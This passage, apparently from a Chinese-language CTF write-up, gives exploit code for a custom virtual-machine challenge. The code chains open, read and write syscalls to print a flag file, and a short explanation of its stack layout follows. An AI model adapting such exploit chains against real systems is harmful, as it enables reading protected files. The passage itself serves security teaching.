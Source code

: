 据此我们就可以写出exp了

```asm
; fd = open("flag", 0, 0)
push "flag"         ; func5
push sp             ; func16
push 0              ; func5
push 0              ; func5
xchg [sp], [sp - 2] ; func3
push 2              ; func5
pop rax
pop rdi
pop rsi
pop rdx
syscall
push rax            ; func15
; readin = read(fd, sp + 0x100, 0x50)
push sp             ; func16
push 0x100          ; func5
pop rax
xor [sp], rax       ; func2
push 0x50           ; func5
xchg [sp], [sp - 2] ; func3
push 0              ; func5
pop rax
pop rdi
pop rsi
pop rdx
syscall
push rax            ; func15
; write(1, sp + 0x100, readin)
push sp             ; func16
push 0x100          ; func5
pop rax
xor [sp], rax       ; func2
push 1              ; func5
push 1              ; func5
pop rax
pop rdi
pop rsi
pop rdx
syscall
push rax            ; func15
; exit
exit                ; func18
```

这里的栈布局经过计算，刚好满足push的值不变，这样在读写的时候就不会发生错位，
导致flag不全。以上exp还通过保留上一个syscall的返回值作为下一个syscall的参数，
可以实现刚刚好输出flag长度的字符，避免了多余的'\0'

## EXPLOIT
